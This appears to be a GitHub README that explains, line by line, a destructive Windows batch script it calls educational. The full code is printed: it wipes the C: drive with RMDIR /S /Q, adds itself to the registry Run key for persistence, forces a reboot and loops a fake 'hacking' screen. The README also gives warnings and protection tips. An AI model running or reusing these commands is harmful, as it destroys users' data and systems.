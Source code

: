 # ⚠️ **Dangerous Batch Script - Educational Use Only** - RemoveEverything.bat

 **Overview**
 
This repository contains a **highly dangerous and malicious batch file** that can cause severe damage to a computer system. The purpose of this file is to demonstrate how batch scripting can be used maliciously. **Do not execute this file** under any circumstances unless you fully understand the risks and implications.

**This batch script, if run, will:**
- Delete the entire `C:` drive.
- Force a system reboot.
- Continuously display random numbers in an infinite loop.
- Set the script to run every time the computer starts by modifying the Windows registry.

**Warning**

This script is **malicious** and will destroy data on the target machine. Running it will result in **permanent loss of data** and **corruption of the operating system**, making the computer unbootable. This repository is for **educational purposes only** to demonstrate the dangers of batch files. Use this knowledge to better understand security and protect systems.

---

**Script Explanation**

Below is a detailed breakdown of each section of the batch script.

```batch
@echo off
```
- **What It Does**: Suppresses the display of command input on the screen. Without this, every command the script executes would be displayed in the command prompt.
- **Purpose**: Hides the operations from the user to make the malicious actions less noticeable.

---

```batch
RMDIR "C:/" /S /Q
```
- **What It Does**: This command attempts to remove (`RMDIR`) the entire `C:` drive and all its contents.
  - `/S` removes all files and subdirectories within the directory.
  - `/Q` performs the operation without prompting the user for confirmation.
- **Result**: Deletes critical system files and user data, which can render the system unusable. **This is the most destructive part of the script.**

---

```batch
set "currentFile=%~f0"
```
- **What It Does**: Sets the `currentFile` variable to the full path of the script itself. `%~f0` expands to the fully qualified path of the batch file.
- **Purpose**: This variable will be used later to make the script persistent by adding itself to the Windows registry.

---

```batch
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "MyScript" /t REG_SZ /d "%currentFile%" /f
```
- **What It Does**: This command adds a new entry to the Windows registry in the `Run` key, located at:
  `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
  - `/v "MyScript"`: This specifies the name of the value being added to the registry, in this case, "MyScript."
  - `/t REG_SZ`: Specifies that the type of data stored is a string (REG_SZ).
  - `/d "%currentFile%"`: Specifies the data to be added, which is the path to the script itself (from the `currentFile` variable).
  - `/f`: Forces the registry update without asking for confirmation.
- **Result**: This command ensures that the batch file runs every time the user logs into Windows, making it **persistent**. Even after rebooting, the script will execute automatically.

---

```batch
shutdown /r
```
- **What It Does**: Forces the system to reboot.
  - `/r` indicates a restart.
- **Result**: After attempting to delete the contents of the `C:` drive, the script forces a reboot, potentially causing the system to crash during startup.

---

```batch
:top
```
- **What It Does**: A label in the batch file that serves as a point for `goto` statements. In this case, it is used to create an infinite loop.
- **Purpose**: The script will loop back to this point to continually display random numbers in the console.

---

```batch
title hacking
```
- **What It Does**: Changes the title of the command prompt window to "hacking."
- **Purpose**: Aesthetic change to simulate "hacking activity."

---

```batch
echo %random%%random%%random%%random%...
```
- **What It Does**: Echoes a series of random numbers generated by the `%random%` variable. The script repeats `%random%` several times to fill the screen with numbers.
- **Purpose**: Creates the illusion of "hacking" by printing a stream of random numbers to the screen.
- **Result**: The console will continuously display random numbers until the script is terminated.

---

```batch
color 0a
```
- **What It Does**: Changes the text color in the command prompt to green on a black background (`0a`).
- **Purpose**: Enhances the visual effect, making the console look like a stereotypical "hacker" screen with green text.

---

```batch
goto top
```
- **What It Does**: Sends the script back to the `top` label, creating an infinite loop.
- **Result**: The script loops endlessly, continuing to display random numbers and preventing the user from easily exiting the script.

---

```batch
pause
```
- **What It Does**: Pauses the execution of the script and waits for the user to press a key to continue.
- **Note**: In this script, this command is unlikely to be reached because of the infinite loop created by the `goto top` statement.

---

**Detailed Functionality**

1. **Destructive Operations:**
   The script's first destructive action is the `RMDIR` command, which attempts to wipe out everything on the `C:` drive, including the operating system. This operation could potentially leave the system unbootable, as critical files will be deleted.

2. **Registry Persistence:**
   By adding itself to the Windows Registry under the `Run` key, the script ensures it will execute again upon system startup. This persistence makes it more difficult for the user to remove the script, as it will run automatically after every login.

3. **System Reboot:**
   Immediately after attempting to delete files, the script forces a reboot. If successful, the system might not boot properly due to missing files.

4. **Infinite Loop and "Hacker" Simulation:**
   The remaining part of the script is focused on creating an infinite loop that prints random numbers to the screen, which could make the system appear to be hacked or compromised. This part of the script is mostly aesthetic and is meant to confuse or scare the user.

---

**How to Protect Yourself**

This script demonstrates how easy it is to write a harmful batch file, but it also highlights the importance of practicing safe computing habits:
1. **Do not run untrusted scripts**: Always review the contents of any batch file before executing it, especially if downloaded from an unknown source.
2. **Backup your data regularly**: In case of malicious attacks or accidental deletion, having backups can save you from losing important data.
3. **Understand registry modifications**: The script modifies the Windows registry, which can have serious implications. Be aware of what registry keys do before editing them.

---

**Disclaimer**

This batch script is shared here for **educational purposes only**. The intent is to show the risks and consequences of malicious scripting in batch files. **Do not execute this file on any system** you wish to keep operational.

I am not responsible for any damage caused by running this script. Use this knowledge responsibly and only in safe environments where no harm can be done.

---

**Conclusion**
This script serves as a cautionary example of the potential damage batch files can inflict. By understanding how this works, you can better protect yourself from similar malicious scripts and avoid catastrophic consequences. Always use caution when running scripts on your system.

